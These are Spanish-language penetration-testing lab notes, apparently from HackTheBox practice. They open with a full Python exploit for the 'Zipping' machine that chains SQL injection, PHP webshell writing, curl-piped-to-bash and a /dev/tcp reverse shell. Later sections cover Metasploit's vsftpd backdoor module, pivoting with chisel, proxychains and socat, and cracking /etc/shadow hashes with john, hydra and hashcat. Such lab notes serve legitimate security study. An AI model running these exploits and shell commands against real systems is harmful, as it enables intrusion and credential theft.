 # Identificar y modificar exploits

```
import requests
import sys
import subprocess
import random

if len(sys.argv) < 2:
	#AQUI HABRIA QUE CAMBIAR EL LISTENER IP Y EL LISTENER PORT
    print("Usage: python3 HTB_Zipping_poc.py <listener ip> <listener port>")
    sys.exit(1)

fnb = random.randint(10, 10000)
url = "http://zipping.htb/"

session = requests.Session()

print("[+] Please run nc in other terminal: rlwrap -cAr nc -nvlp " + f"{sys.argv[2]}")

print("[+] Write php shell /var/lib/mysql/rvsl" + str(fnb) + ".php")

with open('revshell.sh', 'w') as f:
        f.write("#!/bin/bash\n")
        f.write(f"bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1")
proc = subprocess.Popen(["python3", "-m", "http.server", "8000"])
phpshell = session.get(url + f"shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system(\"curl+http%3a//{sys.argv[1]}:8000/revshell.sh|bash\")%3b%3f>'+into+outfile+'/var/lib/mysql/rvsl{fnb}.php'+%231")

print("[+] Get Reverse Shell")

phpshell = session.get(url + f"shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2frvsl{fnb}")

proc.terminate()
```

# Realizar explotación con metasploit

![image](https://github.com/user-attachments/assets/99bc01b1-9d9e-4c20-abf0-b6862b05e4b0)

Después de hacer un nmap y haber visto las versiones de los servicios, podemos buscar a ver si hay exploits con searchsploit.
![image](https://github.com/user-attachments/assets/5d5254ed-46a3-44ae-893c-106d6b8d6da2)

También podemos hacer la búsqueda desde la msfconsole.
![image](https://github.com/user-attachments/assets/0e842828-5115-40c3-9419-2ac7de8b8b87)

Podemos buscar haber si hay algun exploit disponible  con search 
Podemos seleccionar el eploit con use 0, sino podemos hacer un use exploit/unix/ftp/vsftpd_234_backdoor
![image](https://github.com/user-attachments/assets/e9a88f42-07c3-4743-aeb5-791075080c02)

Con show options, podemos ver los parametros que necesita el exploit.
![image](https://github.com/user-attachments/assets/15394aee-2def-4658-809e-41a57796fad5)

Con set marcamos el rhosts y le ponemos la ip de la máquina victima.
Hacemos el primer exploit y vemos que no ha conseguido crear la session, pero hacemos run y ya coge la shell como root.

# Demostrar cómo pivotar agregando una ruta y reenviando puertos
![image](https://github.com/user-attachments/assets/a2466c9e-7e63-4828-83b7-ce971ad4acd7)

Creamos un servidor  con chisel para crear un tunel http entre la máquina victima y la mía.
![image](https://github.com/user-attachments/assets/17eac6bd-afe0-433f-9a95-a48b915f8601)

Nos conectamos como cliente desde la máquina victima a la máquina atacante.
![image](https://github.com/user-attachments/assets/12952c36-afad-4e1d-886f-74c943f342fc)

Podemos ver que se nos han conectado por el puerto 6565 y que se ha generado un proxy en el puerto 1080.
![image](https://github.com/user-attachments/assets/53006bbe-e569-4f5b-af83-bca58fe63769)

Añadimos está linea al final del todo del archivo /etc/proxychains4
![image](https://github.com/user-attachments/assets/aad2e1f7-1ca9-461d-adf2-b2880a9a1816)

Añadimos el proxy y ya podremos ver la página de la segunda máquina de la red. Pero para que estas máquinas puedan conectarse a nosotros necesitamos el socat.
![image](https://github.com/user-attachments/assets/9c40aac3-b8b3-4b3e-9218-4629868a6466)

Abrimos en la máquina victima 1 un escucha en el puerto 1111, y que lo reenvie a nuestra máquina atacante al puerto 448.

![image](https://github.com/user-attachments/assets/bfcc8164-0c59-4692-b32f-0c3d3b5bc27a)
En la máquina atacante abrimos la escucha en el puerto 448 con nc.
![image](https://github.com/user-attachments/assets/b58ae2fb-b890-4d33-84a1-6668ebaf51be)
Hacemos un revershell en la máquina victima 2.
![image](https://github.com/user-attachments/assets/8244188f-b6d2-424d-a27f-d96d7b652d37)
Y en la escucha que tenemos en el puerto 448 se nos abrirá la shell de la máquina 2.





# Realizar ataques de fuerza bruta a contraseñas y descifrado de hash

![image](https://github.com/user-attachments/assets/40123c1d-985d-45e8-9f8d-92ab442b1cab)
Para hacer ataques de fuerza bruta a contraseñas, podemos utilizar hydra:
-L marca el diccionario de usernames que se probarán
-p marca el diccionario de passwords que utilizará
Después marcamos la ip objetivo y el servicio que queremos atacar.
-s marcamos puerto específico

John the ripper:
Con esta herramienta podemos hacer ataques de fuerza bruta a hashes de contraseña.

Practica de ejemplo:
`unshadow /etc/passwd /etc/shadow > password.txt`
`john --wordlist=/path/to/dictionary password.txt`
`john --wordlist=/home/kali/contraas.txt  hash.txt --format=crypt ` "--format=crypt(sirve para yescrypt que es el hash de la pass de linux)"
`john --show password.txt`


Con john podemos adaptarnos a diferentes formatos de hash y tipos de archivos protegidos por contraseña. Existen unas herramientas que convierten estos archivos o hashes a un formato legible para john the ripper. Estas herramientas son programas conocidos como 2john. Ej:
zip2john -- rar2john -- pdf2john -- keepass2john...

Hashcat

Con esta herramienta también podemos hacer ataques de fuerza bruta a contraseñas.

Ejemplos de uso:

`hashcat -m 0 -a 0 hash.txt rockyou.txt`

Con -m especificamos el tipo de hash (MD5 en este caso)
-a especifica el modo de ataque (ataque de diccionario)
Primero se pone el archivo donde tenemos el hash a crackear y luego ponemos el diccionario 
